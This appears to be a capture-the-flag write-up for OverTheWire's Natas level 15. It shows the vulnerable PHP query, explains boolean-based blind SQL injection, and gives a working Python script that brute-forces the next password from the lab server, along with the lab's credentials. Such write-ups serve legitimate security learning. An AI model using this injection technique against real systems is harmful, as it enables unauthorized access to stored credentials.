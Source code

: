 # Writeup level 15
Again we can inject SQL-Code like in the previous challenge. This time we get only two possible results. If the query is succesful then we get the message: This user exists. If the query fails then we get the message: This user doesn't exists.  
So there is no way to directly print out the password for the user.  
We can use the result message to our advantage since we are able to inject our own SQL Code and check character by character to get the password.

**Source Code**
```php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
}
```
So like I said we are going to get the password character by character. Our SQL Query should look something like this:  
```SQL
SELECT * from users where username="natas16" AND password LIKE BINARY {ourpw}%
```
**BINARY:** to make it Case Sensitve  
**{ourpw}%:** ourpw is the String that is going to end up being the password and the % is a Wildcard in SQL. In this case it just means that the String has to start with {ourpw}.

**Exploit**
```python
import requests
import string

symbols = string.printable[:62]
password = ""
char = 0

while char != 62:
	temp_pw = password
	password += symbols[char]
	# SQL: SELECT * from users where username="natas16" AND password LIKE BINARY {ourpw}%
	sql_injection = f"\" AND password LIKE BINARY \"{password}%"
	postdata = {'username': 'natas16' + sql_injection}
	r = requests.post('http://natas15.natas.labs.overthewire.org/?debug=true', data=postdata, auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))
	
	if "This user doesn't exist." in r.text:
		password = temp_pw
		char += 1
	else:
		char = 0
		
	print(f"Password is: {password}")

# WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

The password is:  
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
